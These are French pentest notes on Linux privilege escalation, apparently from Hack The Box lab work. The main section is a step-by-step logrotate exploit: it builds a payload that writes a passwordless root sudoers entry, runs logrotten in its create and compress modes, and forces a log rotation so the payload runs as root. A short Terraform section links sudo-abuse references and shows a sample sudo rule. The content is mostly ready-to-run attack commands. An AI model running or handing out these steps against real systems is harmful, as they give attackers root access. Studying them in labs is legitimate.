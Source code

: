 Attribuer droits sudoers au user
```sh
echo 'echo "<user> ALL=NOPASSWD:ALL" >> /etc/sudoers' > payload
```


3. Identifier les options utilisées par logrotate (create ou compress)

```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

4. Exploit 

Option Create

```
./logrotten -p ./payload /path/to/writable_log_file.log
```

Option Compress

```
./logrotten -p ./payload -c -s 4 /path/to/writable_log_file.log
```


6. Forcer la rotation du fichier de log en écrivant dedans pour executer le payload

```sh
echo "a" >> /home/htb-student/backups/access.log | ./logrotten -p ./payload /home/htb-student/backups/access.log
```

Done! pour que ça soit ok

Attendre un peu le temps que logrotate soit executé en tant que root

---
# TERRAFORM

- [ ] [[#GTFOBin]]
- [ ] [[#Sudo exploit]]

## GTFOBin

https://gtfobins.github.io/gtfobins/terraform/

## Sudo exploit

https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/

En partant du principe que l'utilisateur a le droit sudoer suivant, il est possible de créer un provider script malveillant afin d'exécuter du code arbitraire.

```sh
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply
```
